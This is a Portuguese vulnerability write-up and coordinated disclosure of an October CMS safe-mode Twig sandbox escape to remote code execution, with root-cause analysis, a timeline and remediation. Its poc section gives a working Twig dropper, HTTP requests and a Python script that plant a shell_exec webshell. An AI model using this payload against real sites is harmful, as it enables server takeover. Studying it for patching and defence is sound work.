








← ../ octobercms-safemode-sandbox-rce
chu@antisec:~/research$ cat octobercms-safemode-sandbox-rce
october cms — escape da sandbox twig em safe-mode → rce · um bypass da correção do cve-2026-22692
o
cms.safe_modedo october tem um único trabalho: deixar usuários semi-confiáveis do backend editarem a markup de template sem nunca executar php no lado do servidor. o proxy que impõe isso, oSafeCollection, remove callables dos argumentos dos métodos de collection — mas só no nível de topo. oCollection::sortBy()do laravel aceita de boa um array de comparações, então um callable escondido como[[['Class','method']]]passa direto pelo filtro e é invocado com duas strings controladas pelo atacante. aponte paraFile::put()e você tem escrita arbitrária de arquivo; e como ocheckSafeMode()só roda na hora do save, um.htmgravado direto no disco com um bloco de código php nunca é inspecionado — requisita e ele executa. safe-mode de lado, rce como www-data, a partir de uma conta comum de editor de conteúdo. é um bypass da correção do cve-2026-22692; o vendor rastreou como ghsa-8rgj-g632-3qfp e mandou a correção na 4.2.25.
o bug
um callable um nível fundo demaiso safe mode tem dois trabalhos: bloquear a seção code php dos templates do cms, e
renderizar o twig restante atrás de um sandbox, o System\Twig\SecurityPolicy. a
política é permissiva em tudo, menos nas chamadas de método — ela allow-lista todos os
métodos de um punhado de classes do framework, Illuminate\Support\Collection entre
elas. para impedir que o óbvio collection.map('system') funcione, o october converte
o receiver de cada chamada de método num proxy seguro: uma Collection vira uma
SafeCollection que anula argumentos callable. e o collect() continua
disponível no safe mode, então o atacante pode montar uma SafeCollection cujos itens
ele controla por completo. esse proxy é a parede inteira.
// __call() — every allow-listed collection method funnels through here
public function __call($method, $parameters)
{
if (in_array($method, $this->blockedMethods)) { // mapInto / pipeInto / toResourceCollection
return $this; // no-op'd since cve-2026-22692
}
foreach ($parameters as &$param) {
if (
is_callable($param) && // <-- TOP-LEVEL check only
(!in_array($method, $this->hybridCallableArgs) || !is_string($param))
) {
$param = null; // callables get nulled
}
}
return $this->forwardCallTo($this->collection, $method, $parameters);
}o guard percorre cada argumento e anula tudo que o is_callable() sinalizar —
aplicado ao argumento como um todo, sem nunca recursar em arrays. um
map('system') direto é morto corretamente. mas
is_callable([[['Class','method']]]) dá false: o valor externo é um
array de um elemento, não um par [target, method]. um callable enterrado um nível
abaixo nunca é removido.
o laravel, por sua vez, já vem com um método que chama um. o sortBy() aceita um
array de comparações; um array que não é ele mesmo callable cai no sortByMany(),
cujo comparador invoca o que estiver em $comparison[0] quando é um callable que não
é string — com dois itens da collection como argumentos.
// :1586
public function sortBy($callback, $options = SORT_REGULAR, $descending = false)
{
if (is_array($callback) && ! is_callable($callback)) { // [[['Class','m']]] -> not callable
return $this->sortByMany($callback, $options); // -> multi-comparison path
} ...
}
// :1623
protected function sortByMany(array $comparisons = [], int $options = SORT_REGULAR)
{
$items = $this->items;
uasort($items, function ($a, $b) use ($comparisons, $options) {
foreach ($comparisons as $comparison) {
$comparison = Arr::wrap($comparison);
$prop = $comparison[0]; // = ['Class','method'] — smuggled
if (! is_string($prop) && is_callable($prop)) {
$result = $prop($a, $b); // INVOKED with attacker items
} ...junte as duas metades e uma única expressão na markup sandboxada rende um
Class::method(string, string) arbitrário:
{{ collect(['A','B']).sortBy([[['Illuminate\\Support\\Facades\\Log','info']]]) }}
{# => Log::info('A','B') — the callable was never stripped; sortByMany invoked it #} markup twig em safe mode
│ {{ collect([...]).sortBy([[['Class','method']]]) }}
▼
allow-list do SecurityPolicy — métodos de Collection passam
│ castMethodObjectToSafeObject: Collection → SafeCollection
▼
SafeCollection::__call — is_callable([[['Class','method']]]) === false
│ checa só o nível de topo; o par aninhado sobrevive
▼
Collection::sortByMany — $comparison[0] é callable → $prop($a, $b)
│ Class::method(item0, item1), ambos controlados pelo atacante
▼
File::put(path, '<?php … ?>') → .htm com um bloco de código php no disco
│ checkSafeMode() roda só na hora do SAVE — nunca viu esse arquivo
▼
GET /poc-shell → CodeParser compila onStart() → rce como www-data
por que a correção do cve-2026-22692 não cobriu isso
o blocklist parou no mapIntoo cve-2026-22692 (ghsa-m5qg-jc75-4jp6) foi corrigido adicionando a SafeCollection e
colocando mapInto no blocklist dela (v3.7.13 / v4.1.5). para argumentos no
nível de topo essa correção funciona bem — verificado: o callable ingênuo é
anulado e a chamada morre com um type error. a brecha é que qualquer método de collection que
aceite arrays contendo callables devolve o primitivo de volta.
sortBy/sortByDesc, via sortByMany, são os usados aqui; a
auditoria geral é "todo método que passa Arr::wrap() num argumento e depois trata o
elemento 0 como callable". corrigir a lista de métodos é whack-a-mole por construção.
existe uma segunda brecha no mesmo espírito: o cast seguro envolve só três tipos de receiver —
Collection, Session\Store e Request. outras classes
allow-listadas que entregam um callable a uma collection interna não são embrulhadas;
AbstractPaginator::through() e ComponentAttributeBag::filter() parecem os
dois o mesmo bug esperando em outro cômodo.
as peças são mais velhas que a janela do advisory, também. a SafeCollection, com o
filtro dela que só olha o topo, está no october/rain desde a v3.5.0 e
nunca bloqueou sortBy; o helper collect() e o cast de
receiver de que a cadeia depende chegaram no october/october na v4.0.0; e na v4.2.21
a classe migrou para System\Twig\SecurityPolicy\SafeCollection. o advisory publicado
delimita como ≥ 4.2.0, < 4.2.25, e é essa a faixa pra corrigir. confirmado
dinamicamente na 4.2.24, o release mais recente na época do report.
poc
4.2.24 · safe_mode=true · enxutoalvo: uma instalação limpa do october cms 4.2.24 com cms.safe_mode = true.
ponto de partida: um editor de conteúdo autenticado e de baixo privilégio — só
editor.cms_pages, sem permissão php/developer, sem superuser. cada request passa pelo
burp; a cadeia abaixo está enxuta, e nenhuma credencial é publicada aqui. rode isso só contra uma
instalação sua.

passo 1 — faça login como o editor de conteúdo pelo formulário do backend (csrf e tudo). uma conta comum que um operador entregaria a qualquer pessoa de conteúdo.

passo 2 — salve uma página do cms pela api do editor do backend, enviando
apenas markup. twig é permitido no safe mode; a seção code
php é a única coisa que a checagem de save-time inspeciona, e ela não existe aqui. a markup é o
dropper: ela usa o escape com o gadget File::put pra plantar uma segunda página que
sim carrega um bloco de código php.
POST /admin/editor HTTP/1.1
X-AJAX-HANDLER: onCommand
X-CSRF-TOKEN: <csrf>
extension=cms&command=onSaveDocument
&documentMetadata[type]=cms-page&documentMetadata[theme]=demo
&documentData[fileName]=poc-dropper.htm&documentData[settings][url]=/poc-dropper
&documentData[markup]=<the dropper twig below>
HTTP/1.1 200 OK{% set nl = "\n" %}{% set eq = "==" %}
{% set php = '<?php' ~ nl ~ 'function onStart() { return Response::make("POC-OUT-START".shell_exec($_SERVER["HTTP_X_POC_CMD"] ?? "id")."POC-OUT-END"); }' ~ nl ~ '?>' %}
{% set body = 'url = "/poc-shell"' ~ nl ~ eq ~ nl ~ php ~ nl ~ eq ~ nl ~ 'webshell' ~ nl %}
{% set r = collect(['<webroot>/themes/demo/pages/poc-shell.htm', body])
.sortBy([[['Illuminate\\Support\\Facades\\File', 'put']]]) %}
DROPPER-OK
{# the "==" separators are built as twig strings so SectionParser never splits the outer template #}
passo 3 — renderize o dropper. o escape do sandbox chama
File::put() e a página de webshell pousa no disco.

GET /poc-dropper → 200 DROPPER-OK. a escrita aconteceu dentro do sandbox que era pra torná-la impossível.passo 4 — o bloco de código php da página plantada foi gravado, não
salvo, então nenhum model jamais rodou checkSafeMode() nele. requisitar é
executar.
GET /poc-shell HTTP/1.1
X-POC-CMD: id
HTTP/1.1 200 OK
POC-OUT-STARTuid=33(www-data) gid=33(www-data) groups=33(www-data)POC-OUT-END
id volta como uid=33(www-data). execução de código como o usuário do web, a partir de um login de editor de conteúdo.a cadeia inteira, automatizada — login, salvar o dropper, disparar, rodar um
comando — no poc_october_safemode_rce.py. enxugado às partes que importam:
#!/usr/bin/env python3
# poc_october_safemode_rce.py — october cms safe-mode sandbox escape → rce (< 4.2.25)
# trimmed; the full script ships with the advisory. target installs you own only.
# the dropper: plain twig MARKUP, no php `code` section — the save-time
# safe-mode check only inspects `code`, so the page saves cleanly.
DROPPER_MARKUP = r'''{% set nl = "\n" %}
{% set eq = "==" %}
{% set php = '<?php' ~ nl ~ 'function onStart() { return Response::make("POC-OUT-START".shell_exec($_SERVER["HTTP_X_POC_CMD"] ?? "id")."POC-OUT-END"); }' ~ nl ~ '?>' %}
{% set body = 'url = "/poc-shell"' ~ nl ~ eq ~ nl ~ php ~ nl ~ eq ~ nl ~ 'webshell' ~ nl %}
{% set r = collect(['<webroot>/themes/demo/pages/poc-shell.htm', body])
.sortBy([[['Illuminate\\Support\\Facades\\File', 'put']]]) %}
DROPPER-OK
'''
# 1 — authenticate as a low-priv cms editor (backend signin form + csrf)
# 2 — save the dropper through the backend editor api (markup only)
# 3 — GET the dropper → the escape invokes File::put → the shell page is on disk
s.get(f"{base}/{dropper_url}")
# 4 — the dropped page's php code section was written, not saved: never checked
r = s.get(f"{base}/{shell_url}", headers={"X-POC-CMD": "id"})
out = re.search(r"POC-OUT-START(.*?)POC-OUT-END", r.text, re.S).group(1)
# → uid=33(www-data) gid=33(www-data) groups=33(www-data)
# → REMOTE CODE EXECUTION CONFIRMED
--cmd 'id': login, save, escape, rce.
--cmd 'env | grep SAFE' → CMS_SAFE_MODE=true. o rce rodou com o safe mode ligado.o contraste que prova que o sandbox estava genuinamente ativo, não desligado por
acidente: o ingênuo collect(['x']).map('system') é bloqueado corretamente — o callable
é anulado — e env()/config() são puxados do twig no safe mode. só a forma
aninhada do sortBy escorre pra fora.

map('system') → 500, Argument #1 ($callback) must be of type callable, null given. o proxy fez o trabalho dele no nível de topo. esse é o único nível em que faz.impacto
editor.cms_pages → www-data- execução remota de código como o usuário do web→ php arbitrário como www-data, a partir de uma sessão de editor de conteúdo
- a promessa do safe-mode, anulada→ "templates não podem rodar código no servidor" é o trabalho inteiro do controle; uma expressão desfaz isso
- escalada de privilégio→ da edição de markup (
editor.cms_pages) a acesso a nível de os, sem direitos php/developer nem superuser - comprometimento total a partir daí→ leitura/escrita arbitrária de arquivos, o banco,
.env(APP_KEY, credenciais do db), todo o conteúdo dos tenants
generalidade do gadget: File::put é só o gadget usado aqui — qualquer
método (string, string) que faça algo útil (um writer, um mailer, um executor de
query) funciona igual, então um patch limitado ao File::put teria sido teatro. a
correção do october na 4.2.25, em vez disso, remove callables recursivamente, que é a forma certa.
mesmo sandbox, terceiro escape: cve-2023-44382, cve-2026-22692 — cuja correção este bypass contorna
— e agora ghsa-8rgj-g632-3qfp. o padrão aponta pro design de allow-list-then-subtract, não pra um
método específico. distinto do cve-2026-26274 (o bypass do safe mode via escrita no db) e do
cve-2026-24425, do twig core (os filtros
|sort/|filter/|map/|reduce sob um
SourcePolicyInterface); esse aqui anda no método .sortBy(). o october avalia como
baixo — safe mode é opt-in, e onde ele está desligado um editor de markup pode rodar php por
design. justo. mas para instalações que ligaram o safe mode justamente pra conter editores, o
controle falha até a execução de código; pontuado aqui como cvss 3.1 8.8
(AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H). o rótulo nunca foi a parte interessante.
linha do tempo da disclosure
coordenada · encerrada- 2026-06-02vendor publica a 4.2.24 o release mais recente na época do report — e a build contra a qual a cadeia inteira foi validada.
- 2026-06-08descoberta + report privado
validação ponta a ponta numa 4.2.24 limpa com
cms.safe_mode = true(escape → escrita de arquivo →idcomo www-data), e então um report coordenado pro time de segurança do october cms via github private vulnerability reporting. janela de 90 dias reconhecida; detalhes retidos até a correção sair. - 2026-06-09triage do vendor
reproduzido e confirmado; avaliado como baixo sob o modelo de confiança do
october (score do pesquisador: 8.8 high). correção marcada pra 4.2.25; advisory
ghsa-8rgj-g632-3qfprascunhado com crédito de pesquisa pro repo4chu. - v4.2.25correção publicada + advisory público
a
SafeCollectionagora remove callables recursivamente antes de repassar, mantendo o comportamento híbrido de preservar strings nocontains/groupBye companhia. advisory publicado com crédito. - 2026-09disclosure pública esta página.
remediação
a 4.2.25 fechase você roda october cms
- atualize pra 4.2.25 ou mais novo. a remoção recursiva de callables na
SafeCollectioné a correção de verdade — nada menos que isso fecha o caso. - trate as permissões de edição de template do cms (
editor.cms_pagese irmãs) como confiança de nível developer, com safe mode ligado ou não. não entregue pra usuários pra quem você não entregaria um shell. - busque: templates contendo
sortBy(com arrays aninhados, arquivos.htmnovos inesperados nos diretórios de tema, escritas fora da árvore do tema.
se você mantém um sandbox
- remova callables recursivamente, ou rejeite qualquer argumento que contenha um callable em qualquer profundidade. uma checagem de topo é uma sugestão, não um filtro.
- neutralize explicitamente as formas de array-de-comparações (
sortBy/sortByDescviasortByMany). - trate a allow-list como deny-by-default: embrulhe ou recuse toda classe allow-listada que
possa entregar um callable a uma collection interna —
AbstractPaginator::through()eComponentAttributeBag::filter()são a mesma brecha um cômodo adiante. - imponha o safe mode também na hora do render, no
CodeParser: recuse compilar um bloco de código php não-vazio enquanto ele estiver ligado, pra um.htmsolto no disco não poder executar sozinho, independente de qualquer bug de sandbox.
function stripCallables($value) {
if (is_callable($value)) return null;
if (is_array($value)) return array_map([$this, 'stripCallables'], $value); // recurse
return $value;
}
// applied to every argument in SafeCollection::__call() before the forward —
// a callable can't reach sortByMany() however deeply it's nestedcrédito: encontrado e reportado por chu, junho de 2026 — creditado pelo vendor como repo4chu no
ghsa-8rgj-g632-3qfp, correção publicada na 4.2.25. reportado privadamente pelo coordinated vulnerability reporting do github; nenhum detalhe do exploit foi público antes do patch. o advisory é só ghsa, sem cve atribuído. dúvidas → contato.